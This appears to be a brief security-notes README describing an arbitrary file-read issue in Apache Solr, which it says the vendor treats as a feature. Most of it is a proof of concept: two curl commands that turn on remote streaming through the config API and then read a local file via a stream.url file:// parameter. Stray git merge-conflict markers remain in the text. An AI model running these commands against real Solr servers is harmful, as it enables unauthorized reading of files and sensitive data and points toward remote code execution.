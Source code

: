 # Solr-file_read



一个官方觉得是feature而不修复的漏洞

如何read to RCE 值得思考



POC:

```
curl -d '{  "set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://192.168.33.130:8983/solr/db/config -H 'Content-type:application/json' 

curl "http://192.168.33.130:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file:///C:/a.txt" 
<<<<<<< HEAD

=======
>>>>>>> b9bc7dae7aa85da5caedc75b817444b781729d3e
```



![image-20210318145728513](https://gitee.com/svenbeast/NotePicture/raw/master/img/2021/03/18/37216_image-20210318145728513.png)
<<<<<<< HEAD

=======
>>>>>>> b9bc7dae7aa85da5caedc75b817444b781729d3e
